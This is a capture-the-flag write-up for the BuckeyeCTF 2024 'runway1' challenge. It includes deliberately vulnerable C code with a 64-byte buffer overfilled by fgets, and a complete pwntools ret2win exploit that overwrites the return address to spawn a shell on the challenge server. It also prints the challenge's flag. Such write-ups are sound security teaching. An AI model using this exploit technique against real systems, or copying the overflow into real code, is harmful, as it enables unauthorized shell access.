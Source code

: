 # runway1 [217 solves]
### Challenge Description
> Starting to ramp up!

`nc challs.pwnoh.io 13401`
### Challenge Author 
> Author: kanderoo
# Challenge Files 
we are given the source file that was used for compiling the binary
```c filename=runway1.c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <fcntl.h>
#include <sys/sendfile.h>

int win() {
    printf("You win! Here is your shell:\n");

    system("/bin/sh");
}

int get_favorite_food() {
    char food[64];

    printf("What is your favorite food?\n");
    fflush(stdout);

    fgets(food, 100, stdin);

    printf("Hmmm..... %s...", food);
}

int main() {
    int rand_num;

    srand(time(0));
    rand_num = rand() % 100;

    get_favorite_food();

    if (rand_num <= 50) {
        printf("That sounds delicious!\n");
    } else if (rand_num <= 70) {
        printf("Eh, that sounds okay.\n");
    } else if (rand_num <= 80) {
        printf("That's my favorite food too!\n");
    } else if (rand_num <= 90) {
        printf("I've never tried that before!\n");
    } else if (rand_num <= 100) {
        printf("Ew! I would never eat that.\n");
    }

    return 0;
}
```
# Solution
## Analysis of the Binary
first analyse the provided binary. 
```bash 
fooker@fooker:~/buckeyectf2024/pwn/runway1$ checksec runway1
[*] '~/buckeyectf2024/pwn/runway1/runway1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
```bash
fooker@fooker:~/buckeyectf2024/pwn/runway1$ file runway1
runway1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=2b092185b4262b248428bafe265a9462b3c5daa1, for GNU/Linux 3.2.0, not stripped
```
the provided binary is a `32-bit dynamically linked ELF. a quick look at the source file reveals a `win()` function
```c
int win() {
    printf("You win! Here is your shell:\n");

    system("/bin/sh");
}
```
if we could hijack the control flow and redirect it to the `win()` function then that would pop a shell.

## Buffer Overflow
in the `get_favorite_food()` procedure, we have a buffer `food` of size `64 bytes whereas the line
```c
fgets(food, 100, stdin);
```
let's us read `100 bytes` into the buffer which is enough to overflow it. since the binary does not have a stack canary, we could therefore directly `ret2win`. 
## Exploit
i calculated the offset of the buffer from the base pointer `ebp` and that seemed to be about `72 bytes` therefore, we must send 
```py
payload = b'A' * (72 + 4) + p32(elf.symbols['win'])
```
to overwrite the return address and hijack the control flow.

here's the full exploit
```py
from pwn import *

exe = './runway1'
elf = context.binary = ELF(exe, checksec=True)

host = 'challs.pwnoh.io'
port = 13401

r = remote(host, port, level='DEBUG')

r.recvuntil(b'food?\n')

payload = b'A' * 76 + p32(elf.symbols['win'])

r.sendline(payload)

r.interactive()
```
we could run this 
```bash
fooker@fooker:~/buckeyectf2024/pwn/runway1$ python3 exploit.py
[*] '~/buckeyectf2024/pwn/runway1/runway1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to challs.pwnoh.io on port 13401: Done
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
bctf{I_34t_fl4GS_4_bR34kf4st_7c639e33ffcfe8c2}$
```
and that gives us the flag

## Flag
`bctf{I_34t_fl4GS_4_bR34kf4st_7c639e33ffcfe8c2}`